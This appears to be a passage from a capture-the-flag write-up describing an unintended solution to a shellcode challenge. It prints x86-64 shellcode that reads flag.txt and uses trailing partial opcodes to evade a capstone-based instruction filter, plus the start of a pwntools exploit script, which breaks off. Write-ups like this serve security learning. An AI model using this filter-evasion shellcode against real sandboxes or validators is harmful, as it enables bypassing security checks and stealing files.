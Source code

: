 ### unintended way

There is also an unintended way to resolve this challenge.

if we use a shellcode like this:

```assembly
 // open 'flag.txt'
  mov eax,0
  mov ecx, 0x67616C66
  mov [rsp],ecx
  mov ecx, 0x7478742E
  mov [rsp+4],ecx
  mov [rsp+8],rax
  mov rdi,rsp
  mov rsi,rax
  mov al,2
  syscall
  // read flag onto stack
  mov rdi,rax
  mov rdx,rsp
  mov dx,0
  mov rsi,rdx
  mov edx,0x200
  mov eax,0
  syscall
  mov rdx,rax

  mov eax,1
  mov edi,0
  .byte 0xc6,0x86
```

the last bytes `0xc6`, `0x86` will change the `mov eax,0x3c` instruction that is added at the end of our shellcode, to a `mov byte ptr[rsi+0x3cb8],0x00` instruction<br>

```bash
pwn asm -c amd64 'mov byte ptr[rsi+0x3cb8],0x00'
c686b83c000000
```

it will "erased" the `mov eax, 0x3c` instruction next, that will be included with our opcodes..

and it will permit us to use the last syscall (the exit one added), to call `write` and dump the flag in only one shot..

it looks like this trick bypass the capstone verification process,

probably because the `0xc6`, `0x86` opcodes are not a complete instruction opcode encoding, and it will not be disassembled by capstone..

here is the exploit for the unintended:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'


# shortcuts
def sla(delim,line): return p.sendlineafter(delim,line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)
```